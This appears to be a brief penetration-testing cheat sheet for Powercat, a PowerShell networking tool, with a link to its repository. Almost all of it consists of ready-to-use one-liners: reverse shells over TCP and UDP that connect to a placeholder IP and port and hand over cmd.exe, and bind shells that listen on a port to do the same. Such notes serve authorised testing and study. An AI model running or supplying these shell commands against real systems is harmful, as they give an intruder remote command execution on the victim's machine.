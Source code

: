# Powercat

## Reverse shell

### TCP Method

`PS C:\> powercat -c <IP> -p <PORT> -e cmd.exe`

### UDP Method

`PS C:\> powercat -u -c <IP> -p <PORT> -e cmd.exe`

## Bind shell

### TCP Method

`PS C:\> powercat -l -p <PORT> -e cmd.exe`

### UDP Method

`PS C:\> powercat -u -l -p <PORT> -e cmd.exe`

---
## References

- [Powercat](https://github.com/besimorhino/powercat)